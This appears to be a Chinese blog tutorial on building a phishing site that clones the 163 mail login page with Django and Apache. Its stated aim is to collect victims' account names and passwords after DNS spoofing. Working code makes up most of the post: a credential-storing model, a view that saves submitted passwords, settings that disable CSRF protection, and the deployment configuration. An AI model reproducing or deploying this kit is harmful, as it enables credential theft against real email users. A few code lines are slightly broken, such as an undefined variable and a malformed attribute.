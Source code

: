 ```yaml
---
title:  "<font color='red'>[原创]</font> Apache2+Django搭建钓鱼网站"
date:   2015-08-22 15:13:23
categories: [原创,技术宅]
tags: [原创,技术宅]
---
```


*使用Apache2和Django框架搭建163邮箱的钓鱼网站，用于DNS欺骗后将访问163邮箱网站的流量定向到钓鱼网站，并获取邮箱账号和密码*

## 安装Django
---

通过pip安装：

	$ pip install django

---

## 搭建钓鱼网站
---

### 准备工作

* 用PyCharm生成Django工程，工程名为phisher，在工程根目录创建一个app，app名为mail：

		$ django-admin.py startapp mail

* 在生成的mail目录中创建static和templates文件夹，分别用于存放静态文件(css, js, 图片等)和网页文件(html)

* 在mail/static和mail/templates中创建163文件夹，用于存放163邮箱网页相关静态文件和网页文件

---

### 修改网页文件

* 进入[http://mail.163.com/](http://mail.163.com/)网页，右键，保存所有网页文件

* 修改html文件，删减无用代码，删除js，使其成为一个静态页面

* 替换精简后的html文件中的链接为本地静态文件：

		{% raw %}
		<!DOCTYPE html>
		{% load static %}
		<html>
		<img src="{% static '163/163logo.gif' %}"></a>
		<link rel="stylesheet" type="text/css" href="{% static '163/loginpage.css' %}">
		...
		</html>
		{% endraw %}

* 修改表单响应：

		<form action="/mail/163/login/" method="post">
		...
			<input type="text" name="account">
			<input type="password" name="password">
			<input type="submit">
		...
		</form>

* 如碰到iframe：

		<iframe rc="/mail/163/login/"></iframe>

---

### 编写逻辑文件

* 编写mail/models.py文件，定义数据库记录对象：
	
```python	
# coding:utf-8
from __future__ import unicode_literals

from django.db import models


class Phishee(models.Model):
    account = models.CharField(max_length=30)
    password = models.CharField(max_length=30)
    timestamp = models.DateTimeField(auto_now=True)
    other = models.TextField()

    def __unicode__(self):
        return self.account

    class Meta:
        db_table = 'phishee'			# 指定表名
```

编写完后同步数据库

	$ python manage.py makemigrations
	$ python manage.py migrate


* 编写mail/view.py文件：

```python
# coding:utf-8
from django.shortcuts import render_to_response
from django import forms

from mail.models import Phishee


class PhisheeForm(forms.Form):
    account = forms.CharField()
    password = forms.CharField()


def index_163(request):
    return render_to_response('163/index.html')


def login_163(request):
    if request.method == 'POST':
        form = PhisheeForm(request.POST)
        form.is_valid()
        cdata = form.cleaned_data
        phishee = Phishee(
            account=cdata['account'],		# 'account'与表单中input对应
            password=cdata['password']		# 'password'与表单中input对应
        )
        print phishee.account, phishee.password
        victim.save()						# 存入数据库等其他逻辑
    else:
        form = PhisheeForm()
    return render_to_response('163/login.html')
```

---

### 修改配置文件

* 修改phisher/settings.py文件：

		ALLOWED_HOSTS = ['*']		# 允许所有IP地址访问
		INSTALLED_APPS = [
		    ...,
		    'mail',					# 注册app
		]
		# 注释掉防止跨站请求伪造的中间件CsrfViewMiddleware
		MIDDLEWARE = [
			...,
		    #'django.middleware.csrf.CsrfViewMiddleware',
		    ...
		]
		# 修改数据库
		DATABASES = {
		    'default': {
		        'ENGINE': 'django.db.backends.mysql',
		        'NAME': '??',
		        'USER': '??',
		        'PASSWORD': '??',
		        'HOST': '127.0.0.1',
		        'PORT': '3306',
		    }
		}
		TIME_ZONE = 'Asia/Shanghai'	# 修改时区
		USE_TZ = False


* 修改phisher/url.py文件：

		urlpatterns = [
		    url(r'^static/(?P<path>.*)$', static_views.serve),
		    url(r'^admin/', admin.site.urls),
		    url(r'^mail/163/index/$', views.index_163),
		    url(r'^mail/163/login/$', views.login_163),
		    url(r'^', views.index_163),
		]

---

### 测试

		$ manage.py runserver 8000

用浏览器打开[127.0.0.1:8000](27.0.0.1:8000)

---

## 使用Apache24运行CGI程序
---

* 在/usr/local/etc/apache2/2.4/httpd.conf文件末尾添加：

		# 添加mod_wsgi.so模块
		LoadModule wsgi_module libexec/mod_wsgi-py27.so

		# 指定项目的wsgi.py配置文件路径  
		WSGIScriptAlias / /Users/wuyinan/Projects/python/phisher/phisher/wsgi.py

		# 指定项目路径  
		WSGIPythonPath /Users/wuyinan/Projects/python/phisher

		<Directory "/Users/wuyinan/Projects/python/phisher">
		  <Files wsgi.py>
		    Order deny,allow
		    Allow from all  
		  </Files>
		</Directory>

		# 指定Log路径
		ErrorLog /Users/wuyinan/Projects/python/phisher/log/error.log
		LogLevel warn
		CustomLog /Users/wuyinan/Projects/python/phisher/log/access.log combined

* 测试：

		$ sudo apachectl start

	用浏览器打开[127.0.0.1](27.0.0.1)

	![测试界面](/assets/2015-08-22-1.jpeg "测试界面")

---
